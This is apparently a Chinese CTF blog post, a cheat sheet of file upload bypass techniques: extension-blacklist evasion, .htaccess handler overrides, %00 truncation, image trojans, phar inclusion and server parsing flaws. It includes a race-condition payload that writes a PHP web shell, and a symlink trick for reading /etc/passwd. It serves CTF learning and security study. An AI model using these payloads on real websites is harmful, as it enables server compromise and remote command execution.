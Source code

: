 ```yaml
---
layout: post
title: "文件上传"
date: 2018-12-16 18:04:07 +0800
description: ""
category: ctf/web
tags: []
---
```


```
phtml由服务器生成的具有动态内容的html文件,就像浏览器中的.php
```

一句话木马原理：通过脚本语言的eval函数执行系统操作。

1. eval() 函数把字符串按照PHP代码来计算
2. 该字符串必须是合法的PHP代码，且必须以分号结尾

寻找上传漏洞一般方法：

- 扫描工具获取上传地址
- 进入后台获取的上传地址（网站编辑器上传文件模块一般不存在漏洞）
- 会员注册、上传图像、网站插件、网站应用等功能

## 前端JS校验

```javascript
<form method="post" onsubmit="return checkFile()">
<form action="upload.jsp" onsubmit="return checkFile()">
```

- 直接修改js代码中的检验部分，如：`checkFile()`或直接修改`action=`指向的地址
- 利用Bp绕过：`a.php`改名`a.php.jpg`，Bp截获，改名回`a.php`

## [后端代码校验](https://mp.weixin.qq.com/s/MHH1QsYuWV8qxzYiq7ME6A)

#### 校验header的content-type，通过Bp修改绕过

```php
if($_FILES['upload_file']['type'] == 'image/jpeg')
```

#### 后缀名黑名单

- 后缀名变大小写`.Php`，后面加空格`.php(空格)`，后面加点`.php.`，[后面加::$DATA](https://www.owasp.org/index.php/Windows_::DATA_alternate_data_stream )`.php::$DATA `
- 如果是黑名单删除模式并且未循环删除，可以使用嵌套方式`.pphphp`

- Apache的`httpd.conf`文件如果定义其他后缀名，直接改后缀名为`php5`绕过

```
AddType application/x-httpd-php .php .phtml .phps .php5 .pht
```

- 如果没有定义其他后缀名，如果`http.conf`如下配置开启，可上传`.htaccess`。 `.htaccess`文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过`.htaccess`文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。 

```
AllowOverride All
LoadModule rewrite_module modules/mod_rewrite.so
```

上传`.htaccess`内容为

```xml
<FilesMatch "shell">
    SetHandler application/x-httpd-php
</FilesMatch>
```

此时再上传文件名为`shell`，内容可被解析为PHP。

上传`.htaccess`内容为

```
AddType application/x-httpd-php .jpg
```

此时再上传jpg文件既可被解析为PHP。

#### 后端自动拼接后缀名

```php
$img_path = $_GET['save_path'].".".$file_ext;
```

%00截断，截断条件：PHP版本<5.3.4，`magic_quotes_gpc`为`Off`（当其为On时，所有单引号，双引号，反斜线，NULL字符自动加上反斜线进行转义，类似函数`addslashes(),mysql_escape_string(),mysql_real_escape_string()`）

- `a.php`改名`a.php.jpg`，Bp截获，hex改：`a.php\0jpg`
- `a.php`改名`a.php%00.jpg`，Bp截获，Convert Selection->URL->URL-decode

#### 后端图片检测

后端通过`unpack(),getimagesize(),exif_imagetype(),imagecreatefromjpeg()`等函数检测图片内容，上传图马：

```
copy /b 1.jpg+1.php 2.jpg
```

## 后端代码逻辑

#### 文件包含

当`php.ini`设置`allow_url_include=On`时（从PHP5.2开始allow_url_include就默认为Off），`include(),require(),file_get_contents()`等函数将包含文件以脚本解析执行。 

- 直接包含

```php
<?php // include.php
    $i = $_GET['i'];
    include($i);
?>
```

将一句话木马改名为hack.txt，访问`include.php?i=hack.txt`即可将hack.txt按PHP解析。

- [自动拼接后缀名](http://www.cnblogs.com/Oran9e/p/6127163.html)

```php
<?php // include.php
    $i = $_GET['i'].".php";
    include($i);
?>
```

1.php压缩成1.zip，重命名为1.jpg上传，得到上传保存路径，然后通过PHP伪协议phar读取：`?i=phar://uploads/xxx.jpg/1 `，后台会自动拼接`.php`。

#### 后端定期删除或重命名

- 条件竞争：用Bp不断上传，再不断访问。上传内容为

```php
<?php $c=fopen('/app/intrd','w');fwrite($c,'<?php passthru($_GET\["f"\]);?>');?>
```

如果可以访问到，即会在当前目录写一个shell，下次就不用再条件竞争了。

- 使用`move_uploaded_file`重命名，由于该函数会递归删除文件名后面的`/.`

```php
$file_name = $_POST['save_name'];
$file_ext = pathinfo($file_name,PATHINFO_EXTENSION); //$file_ext check
if (move_uploaded_file($_FILES['upload_file']['tmp_name'], $file_name))
```

因此，POST中设置文件名：`save_name=1.php/.`

## 畸形解析

#### IIS 6.0

- 默认解析格式除了`.asp`还有：`.asa`，`.cer`，`.cdx`
- 目录名为`xx.asp或xx.asa`，其目录内任何扩展名文件均被当作ASP解析：`/test.asp/1.jpg`
- 文件名为`xx.asp;.jpg或xx.asp:.jpg`会被当作ASP解析执行，Bp抓包修改

#### IIS 7.0/7.5

图片URL后面加/.php，即能将文件按PHP解析。如名为1.jpg的木马，访问`/1.jpg/.php`。

#### Apache

`mime.types`配置文件定义了Apache能够解析哪些文件类型（白名单），由于apache从右到左找认识的扩展名，因此`xx.php.rar`或者`xx.php.111`这些默认没有在`mime.types`文件定义的都会解析为PHP文件。

#### Nginx<8.03

- 同IIS 7.0/7.5
- xx.jpg%00.php

#### Windows后缀名解析漏洞

Windows会将文件的后缀中的空格以及点进行过滤，如果遇到是黑名单校验的并且目标系统是Windows，可以上传`xx.php(空格)`或者`xx.php.`。

#### 网站平台信息的获取方式

- 审查元素
- 第三方平台查询（seo.chinaz.com）
- 扫描工具（wwwscan）
- 常用搭配：`PHP+MySQL+Apache`，`ASP+Access`，`MsSQL+IIS`

## 上传tar

创建软连接读取敏感文件（sample：interesting_web-安恒月赛-2018-11）

```shell
ln -s /etc/passwd 1.jpg
tar cvfp 1.tar 1.jpg #-p：保留原文件的原来属性
```

